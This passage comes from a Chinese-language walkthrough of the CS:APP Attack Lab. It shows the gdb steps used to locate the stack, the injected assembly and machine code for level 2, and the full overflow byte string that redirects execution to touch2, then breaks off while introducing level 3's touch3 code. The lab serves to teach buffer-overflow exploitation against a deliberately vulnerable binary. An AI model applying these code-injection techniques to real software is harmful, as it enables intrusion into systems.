 ```
# gdb ctarget
(gdb) set args -q -i answer1
(gdb) b *0x4017af
Breakpoint 1 at 0x4017af: file buf.c, line 14.
(gdb) r
Starting program: /home/pc/attackLab/target1/ctarget -q -i answer1
Cookie: 0x59b997fa
Breakpoint 1, 0x00000000004017af in getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) p $rsp
$1 = (void *) 0x5561dc78
```

得到栈的地址为`0x5561dc78`, 这正是我们注入代码所在的位置。

接下来需要将`cookie`值传给`%rdi`，再跳转到`touch2`。`touch2`地址可通过查看汇编代码得到，结果是`0x4017ec`；跳转到touch2的思路是：**先利用`push`指令将`touch2`地址压栈，接着用`retq`从栈中弹出`touch2`地址并跳转。**

编写如下注入代码，保存到文件`inject2.s`

```assembly
movl  $0x59b997fa, %edi			# cookie值为0x59b997fa
pushq $0x4017ec					# touch2的起始地址为0x4017ec
retq
```

执行`gcc -c inject2.s`, `objdump -d inject2.o`， 将汇编文件转为二进制， 得到如下机器码：

```assembly
0000000000000000 <.text>:
   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   68 ec 17 40 00          pushq  $0x4017ec
   a:   c3                      retq
```

综上，得到我们需要输入的字符串

```txt
bf fa 97 b9 59 68 ec 17				# 攻击代码位于地址0x5561dc78
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00				# 改写返回地址为0x5561dc78
```

此时的栈组织如下：
![](image3.png)
### 第三关

`touch3`代码如下：

```C
int hexmatch(unsigned val, char *sval) {
	char cbuf[110];
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval) {
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
```